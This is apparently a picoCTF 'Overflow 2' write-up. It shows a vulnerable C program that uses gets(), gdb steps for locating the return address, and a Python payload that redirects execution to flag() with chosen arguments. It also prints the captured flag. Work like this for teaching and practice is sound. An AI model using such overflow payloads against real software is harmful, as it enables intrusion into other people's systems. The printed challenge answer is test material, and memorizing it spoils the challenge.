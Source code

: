 
# Binary Exploitation - Overflow 2 (250 points)

## Challenge

*Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446 on the shell server. Source.*

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Flag

picoCTF{arg5_and_r3turn51b106031}

## Walkthrough

This challenge is based on the same vulnerability than OverFlow 1 : the function void `void vuln()` is vulnerable to a buffer overflow because of a call to `gets()` (no boundaries). 

```C
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
  [...]
}
```

But it's a little more complicated this time, because the function `void flag(unsigned int arg1, unsigned int arg2)` has to be called with two arguments with specific values:

```bash
void flag(unsigned int arg1, unsigned int arg2) {
  [...]
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}
```

Our overflow in `buf` will have two goals here:
* Set the return address of `void vuln()` to point to `void flag()`.
* Set the correct values for the two arguments of `void flag()` which have to be *0xDEADBEEF* and *0xC0DED00D*.

First let's get the start address of `void flag()` using gdb:

```bash
root@kali:~/Downloads# gdb ./vuln
[...]
(gdb) info functions
All defined functions:

Non-debugging symbols:
[...]
0x080485e6  flag
0x08048676  vuln
0x080486b5  main
[...]
```

So the return address has to be set to 0x080485e6.

Now, time to play a little with GDB to get the size ofour overflow:

```bash
root@kali:~/Downloads# gdb ./vuln
[...]]
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x08048676 <+0>:     push   %ebp
   0x08048677 <+1>:     mov    %esp,%ebp
   0x08048679 <+3>:     push   %ebx
   0x0804867a <+4>:     sub    $0xb4,%esp
   0x08048680 <+10>:    call   0x8048520 <__x86.get_pc_thunk.bx>
   0x08048685 <+15>:    add    $0x197b,%ebx
   0x0804868b <+21>:    sub    $0xc,%esp
   0x0804868e <+24>:    lea    -0xb8(%ebp),%eax
   0x08048694 <+30>:    push   %eax
   0x08048695 <+31>:    call   0x8048430 <gets@plt>
   0x0804869a <+36>:    add    $0x10,%esp
   0x0804869d <+39>:    sub    $0xc,%esp
   0x080486a0 <+42>:    lea    -0xb8(%ebp),%eax
   0x080486a6 <+48>:    push   %eax
   0x080486a7 <+49>:    call   0x8048460 <puts@plt>
   0x080486ac <+54>:    add    $0x10,%esp
   0x080486af <+57>:    nop
   0x080486b0 <+58>:    mov    -0x4(%ebp),%ebx
   0x080486b3 <+61>:    leave  
   0x080486b4 <+62>:    ret    
End of assembler dump.
```

We are going to set a breakpoint just after the *gets()* call, and then display the stack content:

```bash
(gdb) break *0x0804869a
Breakpoint 1 at 0x804869a
(gdb) run <<< $(python -c "print('\x41\x41\x41\x41')")
Starting program: /root/Downloads/vuln <<< $(python -c "print('\x41\x41\x41\x41')")
Please enter your string: 

Breakpoint 1, 0x0804869a in vuln ()
(gdb) x/100wx $esp
0xffffd240:     0xffffd250      0x08048831      0x0000001a      0x08048685
0xffffd250:     0x41414141      0xf7fb6f00      0x00000000      0x000007d4
0xffffd260:     0x0000001a      0xf7fb6f80      0xf7fb7640      0x00000001
0xffffd270:     0x0000000a      0xf7fb6000      0xffffd2f8      0xf7e56337
0xffffd280:     0xf7fb6d80      0x0000001a      0xf7fb6d80      0xf7e56723
0xffffd290:     0xf7fb6d80      0xf7fb6dc7      0x00000001      0x00000001
0xffffd2a0:     0x00000001      0x00000000      0xf7e570a9      0xf7fb7640
0xffffd2b0:     0x0000001a      0xf7fb6000      0xffffd2f8      0xf7e4b2db
0xffffd2c0:     0xf7fb6d80      0x0000000a      0x0000001a      0xf7ea235d
0xffffd2d0:     0x00000000      0xf7fb6e1c      0xf7fb6d80      0x0000001a
0xffffd2e0:     0xffffd328      0xf7fe9450      0x00000000      0x0804a000
0xffffd2f0:     0xf7fb6000      0xf7fb6000      0xffffd328      0x08048714
0xffffd300:     0x08048831      0x0804a000      0xffffd328      0x0804871c
0xffffd310:     0x00000001      0xffffd3d4      0xffffd3dc      0x00000000
```

*buf* starts at 0xffffd250, and our return address is at 0xffffd30c (because at this adress we found the address of the nextinstruction in *main()* right after *vuln()*). So we have to write (0xffffd30c - 0xffffd250) characters before the return address. Let's try it:

```bash
(gdb) run <<< $(python -c "print('\x41'*188 + '\xe6\x85\x04\x08')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Downloads/vuln <<< $(python -c "print('\x41'*188 + '\xe6\x85\x04\x08')")
Please enter your string: 

Breakpoint 1, 0x0804869a in vuln ()
(gdb) x/100wx $esp
0xffffd240:     0xffffd250      0x08048831      0x0000001a      0x08048685
0xffffd250:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd260:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd270:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd280:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd290:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd300:     0x41414141      0x41414141      0x41414141      0x080485e6
[...]
```

It fits perfectly, and the return address is overwritten. Now, we just have to overwrite the arguments (without forgetting to add a 4 bytes padding to cover the return address just after the address we have overwritten):

```bash
(gdb) run <<< $(python -c "print('\x41'*188 + '\xe6\x85\x04\x08' + '\x41'*4 + '\xef\xbe\xad\xde\x0d\xd0\xde\xc0')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Downloads/vuln <<< $(python -c "print('\x41'*188 + '\xe6\x85\x04\x08' + '\x41'*4 + '\xef\xbe\xad\xde\x0d\xd0\xde\xc0')")
Please enter your string: 

Breakpoint 1, 0x0804869a in vuln ()
(gdb) x/100wx $esp
0xffffd240:     0xffffd250      0x08048831      0x0000001a      0x08048685
0xffffd250:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd260:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd270:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd280:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd290:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd300:     0x41414141      0x41414141      0x41414141      0x080485e6
0xffffd310:     0x41414141      0xdeadbeef      0xc0ded00d      0x00000000
[...]
```

Memory speaking, everything seems good. Now in real conditions:

```bash
m3oow@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ (python -c "print('\x41'*188 + '\xe6\x85\x04\x08' + '\x41'*4 + '\xef\xbe\xad\xde\x0d\xd0\xde\xc0')"; cat -) | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
picoCTF{arg5_and_r3turn51b106031}
Segmentation fault (core dumped)
```